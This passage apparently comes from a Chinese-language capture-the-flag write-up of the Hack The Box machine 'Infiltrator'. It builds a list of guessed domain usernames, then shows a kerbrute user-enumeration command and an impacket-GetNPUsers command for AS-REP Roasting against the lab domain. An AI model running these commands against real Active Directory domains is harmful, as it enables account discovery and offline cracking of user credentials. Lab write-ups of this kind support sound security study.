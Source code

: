 ```
```

# kerbrute枚举域用户


将上面收集的用户名整理成域用户格式



```
david_anderson@infiltrator.htb
david.anderson@infiltrator.htb
d_anderson@infiltrator.htb
d.anderson@infiltrator.htb
olivia_martinez@infiltrator.htb
olivia.martinez@infiltrator.htb
o_martinez@infiltrator.htb
o.martinez@infiltrator.htb
kevin_turner@infiltrator.htb
kevin.turner@infiltrator.htb
k_turner@infiltrator.htb
k.turner@infiltrator.htb
amanda_walker@infiltrator.htb
amanda.walker@infiltrator.htb
a_walker@infiltrator.htb
a.walker@infiltrator.htb
marcus_harris@infiltrator.htb
marcus.harris@infiltrator.htb
m_harris@infiltrator.htb
m.harris@infiltrator.htb
lauren_clark@infiltrator.htb
lauren.clark@infiltrator.htb
l_clark@infiltrator.htb
l.clark@infiltrator.htb
ethan_rodriguez@infiltrator.htb
ethan.rodriguez@infiltrator.htb
e_rodriguez@infiltrator.htb
e.rodriguez@infiltrator.htb

```

`kerbrute userenum --dc infiltrator.htb -d infiltrator.htb 1.txt`


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015181608983-1018962322.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015181608983-1018962322.png)


# AS\-REP Roasting


`impacket-GetNPUsers infiltrator.htb/ -usersfile domain.txt -outputfile output.txt -no-pass`

